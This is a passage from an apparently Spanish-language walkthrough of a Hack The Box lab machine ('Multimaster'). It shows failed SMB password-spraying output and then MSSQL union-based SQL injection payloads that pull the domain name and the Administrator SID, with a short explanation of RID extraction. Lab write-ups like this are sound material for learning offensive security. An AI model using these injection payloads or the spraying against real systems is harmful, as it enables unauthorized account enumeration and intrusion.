 ```bash
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\andrew:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\andrew:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:banking1 STATUS_LOGON_FAILURE
```

Sim embargo debemos recordar que cuando nos encotramos en un entorno de directorio activo, podemos enumerar usuarios o informacion del `DC` a partir de inyecciones.


```bash
> test' union select 1,default_domain(),3,4,5-- -
[
    {
        "id": 1,
        "name": "MEGACORP",
        "position": "3",
        "email": "4",
        "src": "5"
    }
]
>  
```

Ahora con una query especifica vamos a lista el SID y RID correspondiente al usuario `Administrator`


> SID Y RID: El Identificador Relativo (RID) es parte del Identificador de Seguridad (SID) en los dominios de Microsoft Windows. Es la parte del SID que identifica a un principal de seguridad (un usuario, grupo o equipo) en relación con la autoridad que expidió el SID.


```bash
> testt' union select 1,(select sys.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))),3,4,5-- -
[
    {
        "id": 1,
        "name": "0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000",
        "position": "3",
        "email": "4",
        "src": "5"
    }
]
>
```

De el resultado que nos reporta los ultimos 8 caracteres corresponden  al RDI, que viene a estar representado en hexadecimal si lo tratamos un poco.
